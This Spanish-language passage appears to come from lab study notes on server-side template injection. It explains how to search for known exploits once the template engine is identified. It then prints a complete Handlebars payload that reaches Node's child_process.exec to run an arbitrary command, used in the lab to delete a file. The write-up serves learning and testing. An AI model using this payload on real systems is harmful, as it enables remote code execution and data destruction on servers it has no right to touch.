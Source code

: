 <br />

**Buscando exploits conocidos**

Otro aspecto clave de la explotación de las vulnerabilidades de inyección de plantillas del lado del servidor es ser bueno para encontrar recursos adicionales en línea. Una vez que pueda identificar el motor de plantillas que se está utilizando, debe navegar por la web en busca de vulnerabilidades que otros ya hayan descubierto.

Debido al uso generalizado de algunos de los principales motores de plantillas, a veces es posible encontrar exploits bien documentados que podría modificar para explotar su propio sitio web de destino.

<br />

**Laboratorio 4: Server-side template injection un an unknown language with a documented exploit**

Este laboratorio es vulnerable a server-side template injection. Identificar el motor de plantilla y encontrar un exploit que borre el fichero morale.txt De nuevo, procediendo como en los laboratorios anteriores:

<div style="text-align:center">
	<img src="{{ 'assets/img/Burp/Pasted image 20220629140541.png' | relative_url }}" text-align="center"/>
</div>

Así, implementamos el siguiente exploit:

```default
{{#with "s" as |string|}}
{{#with "e"}}
{{#with split as |conslist|}}
{{this.pop}}
{{this.push (lookup string.sub "constructor")}}
{{this.pop}}
{{#with string.split as |codelist|}}
{{this.pop}}
{{this.push "return require('child_process').exec('<COMMAND>');"}}
{{this.pop}}
{{#each conslist}}
{{#with (string.sub.apply 0 codelist)}}
{{this}}
{{/with}}
{{/each}}
{{/with}}
{{/with}}
{{/with}}
{{/with}}
```

Ponemos el comando que queremos y lo URL-encodamos para mandarlo y que se ejecute en el servidor.

<br />

#### 3.4. Explore.

En este punto, es posible que ya te hayas topado con un exploit viable utilizando la documentación. Si no, el siguiente paso es explorar el entorno e intentar descubrir todos los objetos a los que tienes acceso.
